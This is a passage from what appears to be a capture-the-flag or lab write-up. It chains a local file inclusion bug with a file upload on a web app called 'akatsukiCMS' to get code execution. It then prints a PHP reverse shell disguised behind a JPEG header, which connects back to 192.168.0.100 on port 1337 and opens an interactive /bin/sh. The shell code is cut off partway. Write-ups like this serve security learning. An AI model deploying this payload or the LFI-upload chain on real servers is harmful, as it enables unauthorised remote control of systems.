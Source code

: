 ![image](https://user-images.githubusercontent.com/87468669/229391318-0028b844-9478-4ff0-bdce-9abd40a015c9.png)

Bull's eye... we got lfi, let's fuck around and find out something... After hours of battling this, running out of chakra, was forced to use susano ☠️. remember we have two vulns, `LFI & file upload` why don't we try chain this two things together. remember that the web server path is `/var/www/html` and the uploaded file path was `/akatsukiCMS/images/uploads/642a28bb4b082.jpg` in our case. let's try link this though the LFI endpoint. 

![image](https://user-images.githubusercontent.com/87468669/229391984-e670ee5c-a864-4bbb-80bd-73cd17b6ddc7.png)

send the mission.

![image](https://user-images.githubusercontent.com/87468669/229392037-7e54f46d-9b40-4881-b0c0-14a5683c0533.png)

Bingo we got RCE... now let's get reverse shell.

```
ÿØÿî

<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.0.100';
$port = 1337;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
```